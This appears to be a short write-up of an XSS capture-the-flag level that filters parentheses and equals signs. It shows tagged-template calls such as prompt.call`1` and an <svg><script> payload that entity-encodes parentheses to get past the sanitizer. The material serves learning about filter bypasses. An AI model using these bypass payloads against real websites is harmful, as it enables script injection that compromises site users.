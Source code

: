 This level sanitized parenthesis and equal signs.

There are some ways to call functions even without parenthesis in javascript.
Such as:
```javascript
alert`1`
```

But in this challenge, I don't know why this doesn't count as a win:
```javascript
prompt`1`
```

According to other's write-up, we need to call this to win:
```javascript
prompt.call`1`
```
---
There are alternative answers as well.
Actaully, the browser handle `<svg>` tag differently than any other tags.
It seems `<svg>` tags will be interpreted as XML again in the browser, so we can html entity encode some characters under  `<svg>` tag to bypass the sanitization.

There's one thing to be mentioned here, the encoding only works for content of tags, we can't use that directly on tags.

Payload:
```
<svg>
<script>
prompt&#x28;1&#x29;
</script>
</svg>
```
